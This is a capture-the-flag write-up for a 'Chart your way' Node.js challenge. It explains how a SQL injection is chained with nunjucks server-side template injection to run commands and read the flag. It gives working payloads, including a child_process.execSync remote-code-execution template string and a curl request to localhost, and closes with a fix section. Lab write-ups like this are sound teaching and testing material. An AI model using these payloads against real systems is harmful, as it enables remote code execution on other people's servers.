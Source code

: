 # Chart your way

## Vulnerability
This is a Server Side Template Injection.

In `chart_your_way/node/app/controllers/chartController.js` a user controlled variable called `metricName` is being used to build the template.  
This template is evaluated on the server side by `nunjucks`, before returning the static HTML page to the client.

## Exploitation
The service is very simple: it takes a metricName in input, contacts a Database to retrieve the associated metrics and return them to the client.

As we only have one input, we focus on where it is used, and we notice it is directly included in a template that will be rendered on the server side by nunjucks.  
Nunjucks is susceptible to SSTI (Server Side Template Injection), example of payload to test if a service is vulnerable can be found on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

In our case for the template to be rendered we must first ensure the SQL query will be executed successfully.  
We will start with a SQL injection to take control of the SQL query by calling the metricName: `1 as value FROM data FORMAT JSON; -- This comment can be used to exploit the SSTI`

One way to test it is by calling the metric `1 as value FROM data FORMAT JSON; -- {{7*7}}`.  
The generated templates says our metric name is `# of 1 as value FROM data FORMAT JSON; -- 49'`, yes!

Let's now use the known vulnerability of nunjuck to read the flag.  
Metric name: `1 as value FROM data FORMAT JSON; --{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag')")()}}`
```bash
curl 'http://localhost:1337/?metric_name=1%20as%20value%20FROM%20data%20FORMAT%20JSON;%20--\{\{range.constructor(%22return%20global.process.mainModule.require(%27child_process%27).execSync(%27cat%20/flag%27)%22)()\}\}'
```

## Fix
User input should be escaped before being used in templates.  
The web server could also hardcode a list of available metrics and return an error if the user input contains an unknown metric name.
